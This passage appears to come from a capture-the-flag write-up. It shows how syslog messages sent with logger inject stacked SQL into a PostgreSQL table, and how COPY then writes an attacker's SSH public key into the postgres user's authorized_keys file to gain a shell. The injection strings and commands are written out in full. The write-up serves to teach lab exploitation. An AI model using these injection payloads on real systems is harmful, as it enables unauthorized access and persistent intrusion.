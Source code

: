 
I can add a error after the last `;` to get it to dump what it’s seeing:

    
    
    2019-09-01 14:11:34.881 EDT [15740] postgres@syslog ERROR:  syntax error at or near "0" at character 144
    2019-09-01 14:11:34.881 EDT [15740] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' sd\',null); COPY (SELECT * from syslog_lines) To $$/tmp/output.csv$$ With CSV;0xdf-- -','2019-09-01 18:11:34')
    

The escaped `$` worked!

### Shell

There are a few ways to go from this injection to a shell. I’ll show two.

#### Write an SSH Key

In `/etc/passwd`, the postgres user has a shell and a home directory:

    
    
    postgres:x:106:113:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
    

And, the home dir has a `.ssh` directory:

    
    
    roy@zetta:/var/log/postgresql$ ls -la /var/lib/postgresql/
    total 24
    drwxr-xr-x  4 postgres postgres 4096 Sep  1 11:16 .
    drwxr-xr-x 27 root     root     4096 Aug 27 05:39 ..
    drwxr-xr-x  3 postgres postgres 4096 Jul 27 03:07 11
    lrwxrwxrwx  1 root     root        9 Jul 27 06:57 .bash_history -> /dev/null
    -rw-------  1 postgres postgres   32 Sep  1 11:16 .lesshst
    -rw-------  1 postgres postgres  744 Jul 27 07:01 .psql_history
    drwx------  2 postgres postgres 4096 Jul 27 06:40 .ssh
    

I can, with three queries to the database, write my public key file into
`.ssh/authorized_keys`, and then ssh into the box as postgres.

The three queries are:

  * `CREATE TABLE IF NOT EXISTS oxdf (mycol text);`
  * `INSERT INTO oxdf(mycol) VALUES (\$$ ssh-rsa AAAAB3NzaC...[snip]...YQC3rRDiG5P root@kali\$$);`
  * `COPY (SELECT * from oxdf) To \$$/var/lib/postgresql/.ssh/authorized_keys\$$;`

The first create a table. The next puts my key into it. The final one writes
that to a file. I can stack that all together and run:

    
    
    roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); CREATE TABLE IF NOT EXISTS aaa (mycol text); INSERT INTO aaa(mycol) VALUES (\$$ ssh-rsa AAAAB3NzaC...[snip]...YQC3rRDiG5P root@kali\$$); COPY (SELECT * from aaa) To \$$/var/lib/postgresql/.ssh/author
    ized_keys\$$;-- -"
    

Now I can ssh in as postgres:
